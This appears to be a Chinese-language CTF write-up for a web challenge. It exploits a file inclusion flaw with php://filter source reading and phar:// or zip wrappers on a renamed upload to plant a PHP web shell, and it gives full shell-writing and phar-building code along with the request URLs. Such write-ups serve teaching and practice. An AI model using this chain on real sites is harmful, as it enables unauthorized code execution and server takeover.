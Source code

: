 ## web100-2 WriteUp 

---------------  

include.php 存在文件包含漏洞 

可以使用 include.php?file=php://filter/read=convert.base64-encode/resource=upload  来读取源码.

但是 include.php 限制了后缀只能是 .php,这里还不能截断 
再看upload.php,限制了只能上传图片

这里唯一可用的就是  phar://这个协议了  
这个协议到底怎么用参看这里:
[https://segmentfault.com/a/1190000002166235](https://segmentfault.com/a/1190000002166235)
[http://www.mamicode.com/info-detail-888559.html](http://www.mamicode.com/info-detail-888559.html)

###  方法一
来新建一个目录,名字为blog,下面放一个index.php,里面是一个写shell的php代码
```php
<?php  file_put_contents('shell.php','<?php eval($_POST[1])?>'); ?>
``` 

在blog目录外创建一个打包的文件,build.php,代码如下:
```php
<?php 

if(class_exists('Phar')){

     $phar = new Phar('blog.phar',0,'blog.phar');

     $phar ->buildFromDirectory(__DIR__.'/blog');

     $phar->setStub($phar->createDefaultStub('index.php'));
     $phar-> compressFiles(Phar::GZ);
}
```
运行build.php,就会创建一个blog.phar, 然后把后缀名修改为  blog.jpg,然后上传:

然后访问:
```
/include.php?file=phar://upload/blog.jpg/index
```
就会在跟目录下生成一个shell.php,注意.. 不是upload目录下 

### 方法二 

直接把index.php  zip压缩为 blog.zip ,然后改名字为 blog.jpg,
上传之后,用同样的方法,也可以getshell 

### 方法三

ZIP伪协议也可绕过

